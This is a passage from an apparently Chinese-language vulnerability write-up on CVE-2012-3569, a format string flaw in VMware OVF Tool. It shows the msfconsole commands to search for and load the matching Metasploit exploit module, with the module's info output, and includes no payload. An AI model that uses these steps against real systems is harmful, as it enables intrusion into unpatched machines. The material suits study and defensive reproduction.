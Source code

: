 注意到 Vulnerability Point 处的代码在调用 `std::basic_ostream` 的 `operator` 成员函数以进行格式化输出时没有对来自于外界输入的格式化字符参数进行检查和过滤，因而存在格式化字符串漏洞

## 漏洞利用

使用 MSF 搜索该漏洞的 exp

```sh
msfconsole
msf6 > search cve-2012-3569
```

搜索结果

```plaintext
Matching Modules
================

   #  Name                                           Disclosure Date  Rank    Check  Description
   -  ----                                           ---------------  ----    -----  -----------
   0  exploit/windows/browser/ovftool_format_string  2012-11-08       normal  No     VMWare OVF Tools Format String Vulnerability
   1  exploit/windows/fileformat/ovf_format_string   2012-11-08       normal  No     VMWare OVF Tools Format String Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/fileformat/ovf_format_string
```

调用该模块并查看模块详情

```sh
msf6 > use exploit/windows/fileformat/ovf_format_string
msf6 exploit(windows/fileformat/ovf_format_string) > info
```

模块详情信息

```plaintext
msf6 exploit(windows/fileformat/ovf_format_string) > info

       Name: VMWare OVF Tools Format String Vulnerability
     Module: exploit/windows/fileformat/ovf_format_string
   Platform: Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2012-11-08

Provided by:
  Jeremy Brown
  juan vazquez <juan.vazquez@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   VMWare OVF Tools 2.1 on Windows XP SP3

Check supported:
  No

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FILENAME  msf.ovf          yes       The file name.

```